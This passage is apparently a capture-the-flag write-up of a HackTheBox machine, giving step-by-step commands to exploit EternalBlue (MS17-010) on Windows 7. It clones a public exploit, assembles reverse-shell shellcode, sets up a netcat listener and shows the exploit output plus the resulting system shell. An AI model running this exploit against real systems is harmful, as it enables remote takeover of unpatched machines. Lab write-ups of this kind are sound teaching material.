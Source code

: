 A bit(lot) of googling led me to:
[https://root4loot.com/post/eternalblue_manual_exploit/](https://root4loot.com/post/eternalblue_manual_exploit/)
Full credit goes to the author of this amazing exploit!

Do a git clone of the repo

`> git clone [https://github.com/worawit/MS17-010.git](https://github.com/worawit/MS17-010.git)`

This generates a folder, that contains 2 kernel shellcode files, and the main exploit(written in python).

Follow the instructions from the above mentioned website, for assembling the shellcode into binaries, to include in our exploit. These binaries consist of the shellcode, as well as the payload (our reverse shell), that would trigger the exploit, and send us a reverse shell.
Nasm is the assembler that’s used here. We are creating 32-bit and 64-bit binaries and merging the two, into a single binary. This is useful, if the exploit is triggered against a machine with an unknown architecture (32-bit or 64-bit).

Before running the exploit, let’s set up a listener in a new terminal using netcat.
```
> sudo nc -nvlp 443
[sudo] password for kali:
listening on [any] 443 ..
```
### Exploitation

Now, let’s run our exploit and get a shell! Make sure to include the IP address of the victim machine, and the generated binary, as the arguments to be used.

```
 > python eternalblue_exploit7.py 10.10.10.40 sc_all.bin
  shellcode size: 2203
  numGroomConn: 13
  Target OS: Windows 7 Professional 7601 Service Pack 1
  SMB1 session setup allocate nonpaged pool success
  SMB1 session setup allocate nonpaged pool success
  good response status: INVALID_PARAMETER
 done
```

Ignore the INVALID_PARAMETER error, as this doesn’t affect the success of the exploit.

Let’s go back to our terminal that’s running netcat, and we should have received a shell (Awesome!)
```
> sudo nc -nvlp 443
  [sudo] password for kali: 
  listening on [any] 443 …
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.40] 49158
  Microsoft Windows [Version 6.1.7601]
  Copyright © 2009 Microsoft Corporation. All rights reserved.
  
 C:\Windows\system32>
```
If this hasn’t worked for you, run the exploit again (make sure, to revert the machine on HackTheBox to it’s original state).
